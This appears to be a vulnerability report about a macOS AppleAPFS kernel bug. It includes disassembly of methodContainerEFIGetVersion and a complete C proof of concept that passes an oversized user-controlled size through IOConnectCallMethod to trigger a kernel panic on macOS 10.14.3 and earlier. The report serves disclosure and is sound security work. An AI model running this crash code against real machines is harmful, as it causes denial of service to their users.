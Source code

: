 ```yaml
---
layout: default
author: juwei lin
date: 2019-02-02 10:16:00 +0800
---
```


# Apple APFS copyin assert failure case [INTERNAL]

## Overview
There is an assert failure case in function `AppleAPFSUserClient::methodContainerEFIGetVersion`.  

## Root Cause Analysis

In function `AppleAPFSUserClient::methodContainerEFIGetVersion`:
```
__text:0000000000016146 ; AppleAPFSUserClient::methodContainerEFIGetVersion(AppleAPFSUserClient*, void *, IOExternalMethodArguments *)
__text:0000000000016146 __ZN19AppleAPFSUserClient28methodContainerEFIGetVersionEPS_PvP25IOExternalMethodArguments proc near
__text:0000000000016146                                         ; DATA XREF: __const:00000000000F92D0o
__text:0000000000016146
__text:0000000000016146 var_68          = qword ptr -68h
__text:0000000000016146 var_60          = qword ptr -60h
__text:0000000000016146 var_58          = qword ptr -58h
__text:0000000000016146 var_50          = qword ptr -50h
__text:0000000000016146 var_48          = qword ptr -48h
__text:0000000000016146 var_40          = qword ptr -40h
__text:0000000000016146 var_38          = qword ptr -38h
__text:0000000000016146 var_30          = dword ptr -30h
__text:0000000000016146 var_2C          = dword ptr -2Ch
__text:0000000000016146
__text:0000000000016146                 push    rbp
__text:0000000000016147                 mov     rbp, rsp
__text:000000000001614A                 push    r15
__text:000000000001614C                 push    r14
__text:000000000001614E                 push    r13
__text:0000000000016150                 push    r12
__text:0000000000016152                 push    rbx
__text:0000000000016153                 sub     rsp, 48h
__text:0000000000016157                 mov     r15, rdi
__text:000000000001615A                 mov     rax, [rdx+30h]  ; structinput
__text:000000000001615E                 mov     rdx, [rdx+58h]
__text:0000000000016162                 mov     r12, [rax]
__text:0000000000016165                 mov     esi, [rax+8]    ; user-supplied size ---(1.a)
__text:0000000000016168                 test    r12, r12
__text:000000000001616B                 jz      short loc_161BE
__text:000000000001616D                 mov     r14, rdx
__text:0000000000016170                 mov     edi, 1
__text:0000000000016175                 mov     rbx, rsi
__text:0000000000016178                 call    __apfs_calloc ---(1.b)
__text:000000000001617D                 test    rax, rax
__text:0000000000016180                 jz      short loc_161C3
__text:0000000000016182                 mov     rdi, r12
__text:0000000000016185                 mov     r12, rax
__text:0000000000016188                 mov     rsi, rax
__text:000000000001618B                 mov     r13, rbx
__text:000000000001618E                 mov     rdx, rbx
__text:0000000000016191                 call    _copyin ---(1.c)
```

At 1.b, apfs_calloc calls MALLOC to allocate memory with size assigned from user, at 1.c user buffer will copyin to the new allocated memory. If user set the size as 65MB and apfs_calloc succeed allocation, copyin will panic due to too large memory copy.

## PoC Code

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <IOKit/IOKitLib.h>


void trigger(io_connect_t conn)
{
    uint64_t INPUTSCALAR[8];
    uint32_t INPUTSCALARCNT = 0;
    
    char INPUTSTRUCT[4096];
    size_t INPUTSTRUCTCNT = 16;
    
    uint64_t OUTPUTSCALAR[8] = {0};
    uint32_t OUTPUTSCALARCNT = 0;
    
    char OUTPUTSTRUCT[4096];
    size_t OUTPUTSTRUCTCNT = 8;
    
    //FILL INPUT
    *(uint64_t*)(&INPUTSTRUCT[0]) = (uint64_t)INPUTSCALAR;
    //*(uint64_t*)&(INPUTSTRUCT[8]) = 1919249516;
    *(uint64_t*)&(INPUTSTRUCT[8]) = 68157440;
    

    kern_return_t kr = IOConnectCallMethod(
                            conn,
                            12,
                            INPUTSCALAR,
                            INPUTSCALARCNT,
                            INPUTSTRUCT,
                            INPUTSTRUCTCNT,
                            OUTPUTSCALAR,
                            &OUTPUTSCALARCNT,
                            OUTPUTSTRUCT,
                            &OUTPUTSTRUCTCNT);
    if (kr != KERN_SUCCESS) {
        printf("send failure, err: 0x%x\n", kr);
    }
}


int main(){
    
    kern_return_t err;
    
    CFMutableDictionaryRef Matching = IOServiceMatching("AppleAPFSContainer");
    
    if(!Matching){
        
        printf("UNABLE TO CREATE SERVICE MATCHING DICTIONARY\n");
        
        return 0;
        
    }
    
    io_iterator_t iterator;
    
    err = IOServiceGetMatchingServices(kIOMasterPortDefault, Matching, &iterator);
    
    if (err != KERN_SUCCESS){
        
        printf("NO MATCHES\n");
        return 0;
    }
    
    io_service_t service = IOIteratorNext(iterator);
    
    if (service == IO_OBJECT_NULL){
        
        printf("UNABLE TO FIND SERVICE\n");
        
        return 0;
        
    }
    
    io_connect_t CONN = MACH_PORT_NULL;
    
    err = IOServiceOpen(service, mach_task_self(), 0, &CONN);
    
    if (err != KERN_SUCCESS){
        
        printf("UNABLE TO GET USER CLIENT CONNECTION\n");
        
        return 0;
        
    }else{
        
        printf("GOT USERCLIENT CONNECTION: %X, TYPE:%D\n", CONN, 0);
        
    }
    
    for (int i=0; i<1000; i++) {
        trigger(CONN);
    }
    
    
    printf("PANIC?\n");
    
    return 0;
    
}
```


## Panic log
See attachment.

## Q & A

### How did you find this vulnerability?
by fuzzing.

### Can you identify exploitability?
This is an assert failure, it cannot be used for exploit.

### Can you identify root cause?
Yes, see the root cause analysis.

### Vulnerable software and hardware
macOS 10.14.3 and all before